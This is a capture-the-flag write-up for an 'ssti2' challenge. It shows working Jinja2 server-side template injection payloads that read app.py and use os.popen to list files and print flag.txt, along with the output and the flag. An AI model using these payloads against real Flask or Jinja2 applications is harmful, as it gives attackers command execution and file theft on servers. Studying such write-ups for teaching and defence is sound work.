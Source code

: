 # ssti2

## What it is

Same as ssti1 but flag is not in app.py

## Solution

```_io._IOBase``` is not exactly in the same place:
```py
{{'abc'.__class__.__base__.__subclasses__()[106].__subclasses__()[0].__subclasses__()[0]('app.py').read()}}
```

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

Using the request object we can get access to the ```os``` module and do some IO.

List files in the current directory:
```py
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

Result:
```
app.py
config.py
flag.txt
index.html
```

To open ```flag.txt```:
```py
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```

flag: ```BFS{w0w_1_C4n_R3ad_Fl4g_W1th_Pyth0n_SST1}```
